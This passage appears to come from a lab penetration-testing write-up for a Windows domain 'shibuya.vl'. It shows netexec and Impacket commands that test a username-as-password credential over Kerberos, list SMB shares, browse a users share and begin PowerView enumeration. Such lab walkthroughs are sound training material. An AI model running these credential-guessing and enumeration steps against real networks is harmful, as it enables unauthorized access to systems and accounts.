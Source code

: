 We can use `cupp`, but there is a catch. It doesn't add basic case, where `username==password`, thus might miss the obvious case. 

Spend too much time assuming that the `red:<REDACTED>` was incorrect, which lead to wordlist creation and trying to kerbrute it. But since, cupp didn't add `red` as password, thus wasted time.
```
└─$ nxc smb 10.10.112.188 -u 'red' -p '<REDACTED>'                                                          
SMB         10.10.112.188   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.112.188   445    AWSJPDC0522      [-] shibuya.vl\red:<REDACTED> STATUS_LOGON_FAILURE 
```                                                                                                                                                                                              
So check kerberos auth too and to make sure that basic password is indeed incorrect. In this case `red:<REDACTED>` is valid via kerberos auth.                             
```
└─$ nxc smb 10.10.112.188 -u 'red' -p '<REDACTED>' -k         
SMB         10.10.112.188   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.112.188   445    AWSJPDC0522      [+] shibuya.vl\red:<REDACTED> 
```

Let's check shares
```
└─$ nxc smb 10.10.112.188 -u 'red' -p '<REDACTED>' -k --shares                                                                                 
SMB         10.10.112.188   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.112.188   445    AWSJPDC0522      [+] shibuya.vl\red:<REDACTED> 
SMB         10.10.112.188   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.112.188   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.112.188   445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.112.188   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.112.188   445    AWSJPDC0522      C$                              Default share
SMB         10.10.112.188   445    AWSJPDC0522      images$                         
SMB         10.10.112.188   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.112.188   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.112.188   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.112.188   445    AWSJPDC0522      users           READ     
```
```
└─$ smbclient.py shibuya.vl/red:<REDACTED>@awsjpdc0522.shibuya.vl -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# use users
# ls
drw-rw-rw-          0  Sun Feb 16 16:50:59 2025 .
drw-rw-rw-          0  Wed Feb 19 18:59:37 2025 ..
drw-rw-rw-          0  Sat Feb 15 12:49:31 2025 Administrator
drw-rw-rw-          0  Sat Feb 15 21:48:20 2025 All Users
drw-rw-rw-          0  Sat Feb 15 21:49:12 2025 Default
drw-rw-rw-          0  Sat Feb 15 21:48:20 2025 Default User
-rw-rw-rw-        174  Sat Feb 15 21:46:52 2025 desktop.ini
drw-rw-rw-          0  Wed Feb 19 01:29:42 2025 nigel.mills
drw-rw-rw-          0  Sat Feb 15 12:49:31 2025 Public
drw-rw-rw-          0  Wed Feb 19 01:36:45 2025 simon.watson
```
Nothing interesting, let's enumerate domain with [powerview.py](https://github.com/aniqfakhrul/powerview.py)
```
└─$ powerview shibuya.vl/red:<REDACTED>@awsjpdc0522.shibuya.vl -k --use-gc
Logging directory is set to /home/kali/.powerview/logs/shibuya-red-awsjpdc0522.shibuya.vl
```